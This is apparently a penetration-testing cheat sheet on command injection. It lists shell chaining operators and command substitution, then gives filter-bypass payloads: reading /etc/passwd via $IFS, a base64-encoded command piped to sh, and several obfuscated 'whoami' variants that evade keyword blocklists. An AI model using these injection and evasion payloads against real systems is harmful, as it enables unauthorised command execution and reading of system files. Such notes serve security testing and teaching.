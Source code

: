 ```yaml
---
icon: terminal
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)
* [https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)

### Space Bypass

Avoid using spaces with **Internal Field Separator** `$IFS` . The default value of IFS is a space, a tab, and a newline.

```bash
cat$IFS/etc/passwd
```

```bash
# Only works in bash
{echo,Y2F0IC9ldGMvcGFzc3dk}|{base64,-d}|sh
```

### Blacklisted Words

```bash
# Quotes ' / "
w'h'o'a'm'i'     # Both windows and linux systems
wh''oami         # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
